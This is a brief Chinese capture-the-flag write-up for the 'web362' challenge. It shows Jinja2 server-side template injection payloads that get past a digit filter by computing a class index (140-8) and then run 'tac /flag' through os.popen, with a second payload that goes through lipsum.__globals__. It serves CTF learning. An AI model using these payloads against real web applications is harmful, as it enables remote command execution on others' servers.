

# web362
?name={{2}},有过滤了
过滤了一些数字,2,3
那么在选用os._wrap_close的序号时需要做处理了
```
name={{"".__class__.__base__.__subclasses__()[132].__init__.__globals__.popen('tac /flag').read()}}
```
可以做一个运算来得到132如140-8,91+41
别忘了用+号时进行url编码

还可以用其他的类
```
?name={{lipsum.__globals__.get('os').popen('tac /flag').read()}}
```